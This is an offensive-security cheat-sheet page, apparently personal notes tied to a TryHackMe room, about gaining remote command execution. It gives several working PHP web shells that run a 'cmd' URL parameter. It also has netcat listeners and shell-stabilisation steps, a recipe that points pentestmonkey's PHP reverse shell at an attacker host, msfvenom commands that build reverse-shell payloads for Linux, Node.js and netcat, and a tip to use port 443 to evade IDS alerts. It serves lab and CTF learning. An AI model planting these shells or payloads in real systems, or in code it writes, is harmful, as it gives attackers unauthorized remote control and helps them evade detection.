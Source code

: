 # Shell

[![introtoshells](../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-md-2"><div>

The best kind of situation of a hacker is when it's possible to run commands on the target, or better, to run code on the target. The hacker will typically exploit a vulnerability <small>(ex: file upload, command injection...)</small> leading to a **RCE**

* Remote Command Execution
* Remote Code Execution

On Kali, you can find preinstalled reverse/web shells inside

```bash
$ ls /usr/share/webshells
```
</div><div>

The script leading to a RCE could use

* a **reverse shell**: we open a port on our machine, and the target connect to it. We can run commands on the target, and hopefully do a successful privilege escalation.
* a **bind shell**: we open a port on the target and connect to it. This is like SSH, but we with a port we picked, and no login/password.
* a **web shell**: we are using a webpage with a form to run commands. It's a bit hard to use, but it may be the only way.

> To avoid alerting IDS, a bind/reverse shell should use a port that would not be suspected such as `443` (HTTPS).<br>
>
> It's not always possible to use a bind/reverse shell, there will most likely be a firewall blocking access.
</div></div>

> There is a script called [ShellPop](https://github.com/0x00-0x00/ShellPop) (1.4k ⭐, 2018/2019) that is a simplified interface to create reverse/bind/web shells.

<hr class="sep-both">

## web shell in PHP

If you created a file **xxx.php**, then you can run commands by accessing the URL **xxx.php?cmd=payload**. The result is wrapped with `<pre>` so that the result is not formatted and displayed raw. I added ` 2>&1` to redirect errors.

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ compacted web shell with `shell_exec`  ([doc](https://www.php.net/manual/en/function.shell-exec.php))

```php
<?="<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>"; ?>
```

which is the same as

```php
<?php echo "<pre>".shell_exec(/* code */)."</pre>"; ?>
```

* ➡️ simple web shell with `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php
<?php
echo "<pre>";
echo system(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
?>
```
</div><div>

* ➡️ simple web shell with `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php
<?php
$output = "";
exec(($_GET["cmd"] ?? "whoami")." 2>&1", $output);
echo "<pre>".implode('<br>', $output)."</pre>";
?>
```

* ➡️ simple web shell with `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php
echo "<pre>";
echo passthru(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
```
</div></div>

<hr class="sep-both">

## Notes on reverse/bind shells

<div class="row row-cols-md-2"><div>

In a reverse shell, the hacker will usually listen on a port

```bash
$ nc -lnvp port
```

While in a bind shell, the hacker will listen

```bash
$ nc IP port
```

In any case, it's worth noting that such a shell is instable. 

* If you press CTRL+C, then the shell will dies while you may have wanted to cancel a command on the target instead.
* You may also want to use TAB or other utilities that make life easier.
* You can use commands requiring user input

You may also want to change the size of the terminal

* First, open another terminal and resize it with the size you want. Use `stty -a` and take note of the number of rows/columns.
* If the terminal you want to resize, use `stty rows n` and `stty cols n`
</div><div>

There are a few solutions way to make things better

* ➡  Manually

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
xxx@yyy:path$ export TERM=xterm # can use clear...
xxx@yyy:path$ # CTRL+Z
kali@kali:/tmp$ stty raw -echo; fg
xxx@yyy:path$ # can use CTRL+C / ...
xxx@yyy:path$ exit
kali@kali:/tmp$ reset # restore your terminal
```

* ➡️ Use a wrapper such as [rlwrap](https://github.com/hanslub42/rlwrap) (1.8k ⭐)

```bash
$ sudo rlwrap nc -lvnp 4444
xxx@yyy:path$ # still CTRL+C not working
```

* ➡️ Use a wrapper such as [penelope](https://github.com/brightio/penelope) (0.3k ⭐)

```bash
$ ./penelope.py 4444
xxx@yyy:path$ # every working?
```
</div></div>

<hr class="sep-both">

## Reverse shell

<div class="row row-cols-md-2"><div>

* ➡️PHP

You could check out [this script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (1.4k ⭐, 2015).

```bash
$ cp /usr/share/webshells/php/php-reverse-shell.php /tmp/revshell.php
$ sed -i 's/127.0.0.1/HOST_IP/' /tmp/revshell.php
s sed -i 's/1234/PORT/' /tmp/revshell.php
```
</div><div>
</div></div>

<hr class="sep-both">

## msfvenom to create shells

You can use msfvenom to generate all kinds of reverse shells.

<div class="row row-cols-md-2"><div>

* List payloads

```bash
$ msfvenom --list payloads
# payload opening a meterpreter - see metasploit
$ msfvenom --list payloads | grep meterpreter
```

* **Linux**

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (R=RAW) opening a reverse shell with netcat
# same as "-f raw" (to check)?
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 R
```
</div><div>

* **Node.js**

```bash
# Generate a .js opening a reverse shell (TCP)
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4444 -o shell.js
```

...
</div></div>